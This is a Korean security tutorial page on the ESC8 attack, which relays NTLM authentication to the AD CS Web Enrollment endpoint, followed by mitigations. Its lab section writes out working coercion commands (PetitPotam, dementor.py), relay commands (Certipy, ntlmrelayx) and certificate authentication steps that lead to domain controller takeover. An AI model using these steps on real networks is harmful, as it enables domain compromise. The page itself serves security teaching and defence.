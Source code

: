 # ESC8

### 개념

ADCS 에는 Web Enrollment 라는 웹 서비스가 존재한다. 이 웹 서비스는 유저, 스크립트, 프로그램 등이 ADCS 서비스와 편리하게 통신하기 위해 웹 서버와 HTTP 엔드포인트 등을 제공한다. 액티브 디렉토리 안의 서비스 답게 이 웹 서버는 기본적으로 NTLM 인증을 통해 사용자 인증이 가능하다 - 라는 말은 곧 NTLM Relay 공격에 취약 하다는 말이 된다.

ESC8 은 NTLM Relay 공격을 통해 피해자 유저/머신의 NTLM 인증 트래픽을 ADCS HTTP 엔드 포인트로 보낸 뒤, 피해자 유저/머신으로 인증서를 발급받아 사용자 인증 및 계정을 탈취하는 공격이다.

### 전제 조건

1. ADCS 서버에 Web Enrollment 가 설치되어 있다
2. NTLM Relay 를 시작할 수 있는 피해자 유저/머신과 취약점이 존재한다 (강제 인증, LLMNR/NBT-NS 포이즈닝, MITM6, 등)
3. Web Enrollment 웹 서버가 NTLM 인증을 허용한다 - 특별한 설정을 하지 않는 이상 기본적으로 허용한다.

### 실습

해당 실습에서는 강제 인증에 취약한 도메인 컨트롤러로부터 인증 트래픽을 받아 이를 CA 서버의 HTTP 엔드포인트에 릴레이하는 ESC8 공격을 실행한다. 이로서 공격자는 도메인 컨트롤러 머신 계정을 장악한. 도메인 컨트롤러 머신 계정은 DCSync 권한을 갖고 있기 때문에 도메인을 장악할 수 있게 된다.

> 도메인 컨트롤러 -> 강제 인증 -> 공격자 -> 릴레이 -> ADCS HTTP 엔드포인트 == 도메인 컨트롤러의 인증서 획득. 인증서를 이용해 도메인 컨트롤러로 인증 후 DCSync

#### 정보 수집

1. 먼저 CA와 CA의 Web Enrollment 가 존재하는지 Certipy 로 알아본다. `Web Enrollment: Enabled` 라면 웹서버가 활성화 되어 있는 것이다.

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

2\. 정확한 확인을 위해 GUI에서는 HTTP 엔드포인트를 브라우저로 방문하거나 curl 등을 이용한다. `401 Unauthorized` 에러 메시지가 나오면 제대로 HTTP 엔드포인트가 실행 중이라는 것이다.

```
$ curl -k http://<CA-IP>/certsrv/certfnsh.asp

$ curl -k http://192.168.40.150/certsrv/certfnsh.asp                                              
[ ... ] 
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>401 - Unauthorized: Access is denied due to invalid credentials.</h2>
  <h3>You do not have permission to view this directory or page using the credentials that you supplied.</h3>
```

3\. CA 서버의 HTTP 엔드포인트로 릴레이 세팅 해놓는다. Certipy 나 NTLMRelayx 를 이용한다.

<pre><code># Certipy 
<strong>certipy relay -ca &#x3C;ca-ip> 
</strong>
# ntlmrelayx 
python3 ntlmrelayx.py -t http://&#x3C;CA-IP or FDQN>/certsrv/certfnsh.asp -smb2support --adcs --template &#x3C;template>
</code></pre>

4\. 강제 인증, LLMNR/NBT-NS, MITM6 등을 이용해 도메인 컨트롤러를 공격해 NTLM Relay 공격을 실행한다.

```
# Petitpotam - 무인증 
python3 Petitpotam.py <attacker-ip> <target-ip> 

# Petitpotam - 인증 
python3 Petitpotam.py -u <user> -p <pass> <attacker-ip> <target-ip> 

# Print Spooler (dementor.py) (https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py) 
python3 dementor.py -u <user> -p <pass> -d <domain> <attacker-ip> <target-ip>

```

5\. Certipy 결과

```
certipy relay -ca dc01.choi.local -template DomainController
Certipy v4.0.0 - by Oliver Lyak (ly4k)

[*] Targeting http://dc01.choi.local/certsrv/certfnsh.asp
[*] Listening on 0.0.0.0:445
[*] Requesting certificate for 'PCI\\DC1$' based on the template 'DomainController'
[*] Got certificate with DNS Host Name 'dc1.pci.choi.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'dc1.pfx'
[*] Exiting...
```

(5-1. NTLMRelayx 결과)

```
[*] Authenticating against http://192.168.40.150 as PCI/DC1$ SUCCEED                                          
[*] SMBD-Thread-7 (process_request_thread): Connection from 192.168.40.160 controlled, but there are no more targets left!
[*] Generating CSR...                                  
[*] CSR generated!                                     
[*] Getting certificate...                             
[*] GOT CERTIFICATE! ID 22                             
[*] Base64 certificate of user DC1$:                   
MIIRbQIBAzCCEScGCSqGSIb3DQEHAaCCERgEghEUMIIREDCCB0cGCSqG [ ..... ] 
```

6\. 인증서를 이용해 도메인 컨트롤러의 머신 계정을 획득한다.

```
# Certipy
certipy auth -dc-ip <dc-IP> -pfx <filename>

# NTLMRelayx 
Base64 Certificate 을 저장한다. 
$ base64 -d <base64-pfx> > real.pfx 
$ certipy auth -dc-ip <dc-IP> -pfx real.pfx 
```

### 대응 방안

> 다음의 대응 방안은 마이크로소프트사의 공식 문서를 기반으로 쓰여졌다. 더 자세한 사항은 레퍼런스 섹션의 MSDN을 참고한다.

1. ADCS HTTP 엔드포인트에 Extended Protection Authentication (EPA) 을 `Required` 로 설정한다.\
   Server Manager > IIS Manager > DC/CAXX > Sites > Default Web Site > CertSrv > Authentication 더블클릭 > Windows Authentication 오른쪽 클릭 > Advanced Settings > Extended Protection: Required

<figure><img src="../../../.gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

1-1. 그 이 SSL을 활성화 한다.

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

2\. 극단적으로 CA 서버에 NTLM 인증을 비활성화 한다. 프로덕션 서버의 경우 하위 호환성에 문제가 갈 수 있기 때문에 충분한 테스트를 거친 뒤 NTLM 인증을 비활성화 한다.\


### 레퍼런스

{% embed url="https://support.microsoft.com/en-us/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429" %}
